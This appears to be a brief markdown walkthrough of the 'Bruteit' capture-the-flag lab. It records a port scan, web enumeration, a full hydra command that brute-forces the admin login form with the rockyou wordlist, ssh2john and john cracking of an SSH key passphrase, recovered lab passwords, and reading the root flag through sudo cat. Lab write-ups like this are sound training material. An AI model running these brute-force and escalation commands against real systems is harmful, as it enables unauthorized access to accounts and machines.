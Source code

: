 # Bruteit
```
export ip = 10.10.192.48
```

## SCAN
```
22 ssh
80 http
```

## Web Enumeration
```
[Gobuster]
: Reference gbuster.log

[View Page Source]
USER_NAME is "admin"
```

## Web Brute Focing
```

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.192.48 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:invalid"

admin : xavier
```
## SSH Brute Forcing
```
ssh2john > hash
john hash --wordlist={ROCK_YOU}

:rockinroll
```

## PRIVILEGE ESCALATE
```
: sudo -l
: sudo /bin/cat /root/root.txt
```